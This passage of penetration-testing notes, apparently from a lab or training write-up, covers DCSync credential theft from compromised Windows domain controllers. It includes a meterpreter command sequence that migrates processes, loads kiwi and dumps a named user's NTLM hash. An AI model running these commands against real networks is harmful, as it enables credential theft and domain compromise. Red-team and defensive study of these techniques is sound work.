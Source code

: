 	Now that we have compromised the domain controllers we can try to gather data as multiple domain controllers work to stay redundant. Replicating this data from a domain controller is a reserved privilege for domain controller computer accounts or domain administrators.
		used to access these credentials on the NTDS.dit file however this technique is no longer applicable for Windows 10+/Server 2016+
	DCsync is the newer preferred technique for accessing password hashes on domain controllers.
DCSYNC Credential Access
``` bash
#system meterpreter
	ps
	getpid
	migrate <pid>
	shell
	shell> net users
	shell> exit
	load kiwi
	dcsync_ntlm tstark
```
